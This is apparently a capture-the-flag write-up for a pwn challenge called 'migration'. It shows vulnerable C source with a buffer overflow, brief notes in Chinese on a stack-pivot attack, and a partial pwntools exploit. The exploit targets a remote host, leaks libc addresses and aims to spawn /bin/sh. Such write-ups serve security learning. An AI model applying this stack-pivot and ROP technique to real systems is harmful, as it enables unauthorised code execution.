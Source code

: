 ## migration

```c
#include <stdio.h>
int count = 1337 ;
int main(){
    if(count != 1337)
        _exit(1);
    count++;
    char buf[40];
    setvbuf(stdout,0,2,0);
    puts("Try your best :");
    read(0,buf,64);
    return ;    
}
```
看着名字感觉应该是关于 stack migration

read()有buffer overflow 

但是只有5*4字节
发现read+3参数+ret_addr刚好5个

我们可以利用bss上的空闲地带进行
stack migration

利用ropgadget很容易发现了leave_ret
pop_ret

于是思路：

    利用stack migration 泄露整个libc
    得到system，get
    然后构造两次function call
    第一次写/bin/sh
    第二次call system

exploit:

```python
from pwn import *
offset=44
leave_ret=0x08048503
pop_ebx_ret=0x0804836d
read_plt=0x8048380
puts_plt=0x8048390
elf=ELF('./pwn')
main=elf.symbols['main']
bss=elf.bss()
buf1=bss+0xa00
buf2=bss+0xc00
p=process('./pwn')
p=remote("121.42.189.18",10006)
p.recvline();
payload='Y'*40+p32(buf1)+p32(read_plt)+p32(leave_ret)+p32(0)+p32(buf1)+p32(200)
p.send(payload)

def leak(addr):
    global buf1,buf2,delay
	buf1,buf2 =buf2,buf1
	payload=p32(buf1)+p32(puts_plt)+p32(pop_ebx_ret)+p32(addr)+p32(read_plt)+p32(leave_ret)+p32(0)+p32(buf1)+p32(200)
	p.sendline(payload)
	data=p.recvrepeat(0.1)[:-1]+"\x00"
	return data

ptr_libc=leak(0x8049ff0)[:4]
```